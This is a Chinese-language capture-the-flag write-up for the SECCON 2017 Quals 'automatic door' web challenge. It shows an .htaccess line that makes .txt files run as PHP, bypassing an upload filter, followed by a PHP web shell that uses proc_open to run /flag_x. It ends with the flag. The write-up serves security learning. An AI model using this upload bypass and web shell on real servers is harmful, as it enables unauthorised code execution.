 # SECCON CTF QUALS 2017 : automatic door

**category** : web
**points** : 500

> Get shell, and execute /flag_x
>
> http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/

## write-up

網站提供 read 和 write 和 看 phpinfo 和 看當前路徑 的功能

主要的思路就是放一個可以用的 webshell 上去 ( `strstr($f, 'ph')` 這行限制了不能上傳 `.php` )

先看 phpinfo 可以看到系統是 `linux` 然後很多被 ban 的 function

![](https://i.imgur.com/5wjyXtQ.png)

所以首先我們先上傳 `.htaccess` 讓我們可以傳 `.txt` 他就會當作 php script 執行

```
AddType application/x-httpd-php .txt
```

我是用 postman 上傳檔案

![](https://i.imgur.com/mqoPozo.png)

`proc_open` 很剛好的沒有被 ban

上傳 `shell.txt` 再去瀏覽 `http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/sandbox/FAIL_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/shell.txt`

```php
<?php
$cwd = '';
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("file", "/tmp/error-output.txt", "a")
);

$process = proc_open("/flag_x", $descriptorspec, $pipes, $cwd);

echo stream_get_contents($pipes[1]);
fclose($pipes[1]);
?>
```

flag : SECCON{f6c085facd0897b47f5f1d7687030ae7}

## other write-ups and resources

* https://ctftime.org/writeup/8340
* https://github.com/p4-team/ctf/tree/master/2017-12-09-seccon-quals/web_automatic
* https://blog.veryhax.ninja/blog/seccon-2017-automatic_door/
